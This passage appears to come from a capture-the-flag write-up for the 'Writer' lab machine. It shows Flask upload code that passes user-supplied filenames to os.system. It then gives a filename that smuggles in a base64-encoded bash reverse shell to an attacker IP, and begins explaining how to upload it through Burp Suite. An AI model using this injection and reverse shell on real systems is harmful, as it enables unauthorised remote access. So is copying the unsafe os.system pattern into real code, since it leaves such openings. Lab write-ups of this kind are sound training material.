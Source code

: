 ```py
[...]
def add_story():
    if request.method == "POST":
        if request.files['image']:
            image = request.files['image']
            if ".jpg" in image.filename:
                path = os.path.join('/var/www/writer.htb/writer/static/img/', image.filename)
                image.save(path)
                image = "/img/{}".format(image.filename)
            else:
                error = "File extensions must be in .jpg!"
                return render_template('add.html', error=error)

        if request.form.get('image_url'):
            image_url = request.form.get('image_url')
            if ".jpg" in image_url:
                try:
                    local_filename, headers = urllib.request.urlretrieve(image_url)
                    os.system("mv {} {}.jpg".format(local_filename, local_filename))
                    image = "{}.jpg".format(local_filename)
                    try:
                        im = Image.open(image) 
                        im.verify()
                        im.close()
                        image = image.replace('/tmp/','')
                        os.system("mv /tmp/{} /var/www/writer.htb/writer/static/img/{}".format(image, image))
                        image = "/img/{}".format(image)
                    except PIL.UnidentifiedImageError:
                        os.system("rm {}".format(image))
                        error = "Not a valid image file!"
                        return render_template('add.html', error=error)
                except:
                    error = "Issue uploading picture"
                    return render_template('add.html', error=error)
            else:
                error = "File extensions must be in .jpg!"
                return render_template('add.html', error=error)
[...]
```

So basically this only checks if there is a `.jpg` in the file name, if so it does some os.system calls where it moves files around.
We can make use of this by exploiting the filename.

First we create our empty file with this name:
```
test.jpg;`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjYxLzQyNDIgMD4mMQ==|base64 -d|bash`;
```
The base64 encoded part is a simply reverse shell:
```
/bin/bash -i >& /dev/tcp/10.10.14.61/4242 0>&1
```
We then upload it to the webpage via the "edit story" option on the dashboard.
After we saved it we press "edit" again but CAREFUL this time we start our interceptor in burpsuite before we hit save.

